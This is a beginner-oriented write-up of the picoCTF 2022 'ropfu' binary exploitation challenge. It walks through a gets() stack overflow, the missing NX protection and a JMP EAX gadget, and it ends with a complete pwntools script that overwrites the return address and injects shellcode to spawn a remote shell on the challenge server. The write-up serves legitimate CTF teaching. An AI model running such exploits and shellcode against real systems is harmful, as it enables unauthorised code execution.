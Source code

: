 ```yaml
---
title: "Ropfu Writeup - picoCTF 2022"
categories:
 - Writeups
tags:
 - Binary Exploitation
 - picoCTF
toc: true
toc_sticky: true
---
```


## Introduction

Hi everyone! In this article I will talk about the binary exploitation challenge 'ropfu' of picoCTF 2022.

I promise I will do my best to keep this guide as beginner-friendly as possible, but a *bit* of general knowledge about binary exploitation is required to understand the following guide.

If you're more expert, feel free to skip this first part using the table of contents on the right!

## Code Analysis and Debugging

The thing that made me like this challenge a lot is its simplicity. 
All the binary does is:
1. print a welcome text
2. wait for user input
3. end without printing anything 

By taking a look at the .c file the challenge provided us, we can clearly see that nothing else is done.
```
void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);
}
```
First an array of 16 characters (so 16 bytes) is created, and then it's filled with user input using the function [gets](https://www.tutorialspoint.com/c_standard_library/c_function_gets.htm). The problem with this function is that it stops only when the user input ends (or when it encounters a newline character).

So if we type in our input more than 16 characters, we're overwriting areas of our memory we shouldn't have access to. This means we have a **buffer overflow** vulnerability.

Let's investigate a bit more in depth using a debugger. Specifically, I'm gonna be using gdb enhanced with [gef](https://gef.readthedocs.io/en/master/)

1. Let's place a breakpoint after the program fills the buffer with our input: `b* 0x8049dcc`

**TIP:** You can use a decompiler like Ghidra to find the address of the instruction you want to place the breakpoint on
{: .notice--info}
2. Run the binary using the command `r` and type something like 'aaaaaaaaaaaaaaaa' to fill the buffer but without doing an overflow
3. Run the command `telescope` to see the contents of the stack in a pretty format

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/writeups/ropfu/stack1.png)

In order, we have:
- our buffer of 16 bytes
- other 2 unknown variables of 4 bytes (not important, since we know they're not used by the program)
- the ebp register (if you don't know what that is, watch [this video](https://youtu.be/jyRQpRHSYNY))
- the return address, which points to the instruction that will be executed when our 'vuln' function ends. This is very important for us attackers, since we can overwrite this to control what the program executes!

Now that we have a general idea of what's inside the stack, we have one last thing to do: check the security measures of the binary. We can do that inside gef by running the command `checksec`:

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/writeups/ropfu/checksec.png)

Gef identified a stack canary, i.e. a random 4-byte value placed before the ebp register that terminates the program if it's overwritten with a different value.
In theory this should prevent us from overwriting the return address; however, the canary gef found (0x4928c500) is not present in the stack image above. In other words, the devs intentionally disabled this form of memory protection for the 'vuln' function, so we don't have to worry about that.

Another very important security measure that must not be overlooked is NX. Here it's disabled, meaning we can execute arbitrary code directly from the stack. As we'll see, this makes things a lot easier for us.

## The Plan

So, to recap:
- we have a buffer overflow vulnerability in the 'vuln' function that lets us overwrite its return address
- NX is disabled, so we can execute code directly from the stack

The plan is, of course, to spawn a shell. And to do that, we need to make the program execute a *shellcode*. If you're using [pwntools](https://docs.pwntools.com/en/stable/), you don't have to craft that by yourself but you can use `asm(shellcraft.sh())`, that returns a byte string of 44 bytes.

There's a problem though: we only control 28 bytes before the return address, so if we place our shellcode at the start of the buffer, we're gonna end up overwriting the return address with something invalid and get a segmentation fault.

The solution to this problem is actually pretty simple: we can just place the shellcode *after* the return address, like this:

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/writeups/ropfu/plan.png)

Nice, the only thing we miss now is to find a method to jump to the address where our shellcode is placed, and that's the hardest part of the challenge.

## Failed Attempts

In this section I want to share a bit of *"pain"* I went through when trying to solve this challenge. Feel free to skip this part if you want to know the solution right away.

- **Attempt #1: Leak the address of my shellcode**

The first strategy I had in mind was to call the `printf` function (through the 'vuln' function) but with a different parameter, so that I can print in output something important like the esp register (that always points to the top of the stack). And from there, overwrite the return address a second time with the address of my shellcode.
The main problem with that is the ebp register: before the 'vuln' function ends, the content of the 4 bytes before the return address is copied in the ebp register. If we want to overwrite the return address, we also need to overwrite those 4 bytes with garbage, since we don't have any information about stack adresses. This will cause segmentation fault if we call 'vuln' again starting from the printf call without modifying the register first. There has to be an easier way.

## Exploitation

Since leaking an address is not an option (or a too difficult one), it's pretty clear we have to work with what we already have: registers and gadgets, i.e. small snippets of code in the binary.
Let's place a breakpoint in the RET instruction of the 'vuln' function and analyze the registers:

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/writeups/ropfu/registers.png)

As expected, esp points to the return address... however, after the RET instruction is executed, it will point to what's right *after* that, our shellcode! In other words, if we can find a `JMP ESP` instruction in the binary, the challenge is over! Let's use **ropper** to search for that gadget:

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/writeups/ropfu/ropper1.png)

Unfortunately there are no `JMP ESP` instructions in the binary. But we are getting closer! Let's check again the registers to see if there's something else that can be useful to us...

You guessed it, the eax register! Since it points to the start of our buffer, if we manage to find a `JMP EAX` instruction, we can execute any code we want! Fingers crossed...

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/writeups/ropfu/ropper2.png)

Perfect! All we have to do now is to place a `JMP ESP` instruction at the start of the buffer, in **byte code** of course, so we'll use `asm('JMP ESP')`.
Here is the exploit:

This is an unpublished template for binary exploitation I created. Feel free to use it! :D
{: .notice--info}
```
#!/usr/bin/env python3

import sys
from pwn import *

if len(sys.argv) == 2 and sys.argv[1] in ['-l','-r']:
    if sys.argv[1] == '-l':
        execute_locally = True
    else:
        execute_locally = False
else:
    print("Usage: " + sys.argv[0] + " [-l/-r]\n\t-l: execute this exploit with gdb on the local elf (if you have one)\n\t-r: execute this exploit on the remote server")
    sys.exit()

# ------ REMOTE INFO ------
host, port = 'saturn.picoctf.net', PORT

# ------ LOCAL INFO (only if in whitebox environment) ------
context.binary = binary = './vuln'
vuln_elf = ELF(binary)
#libc = ELF('./path_to_libc')  # only if the challenge provides a libc library
#vuln_rop = ROP(vuln_elf) # only if you need to use gadgets

if execute_locally:
    io = process(binary)
    gdb.attach(io) # comment this line if you don't want to use gdb
else:
    io = remote(host, port)

# ---------------------------------------
# WRITE HERE YOUR EXPLOIT

payload = asm('jmp esp')
payload += b'a'* 26
payload += p32(0x0805334b)
payload += asm(shellcraft.sh())

print(io.recvrepeat(1))
io.sendline(payload)
print(io.recvrepeat(1))
io.interactive()
```

## Conclusion

This was a perfect introductory challenge to Returned Oriented Progamming (ROP).

Hope you learned something new from this writeup, see you in the next one!
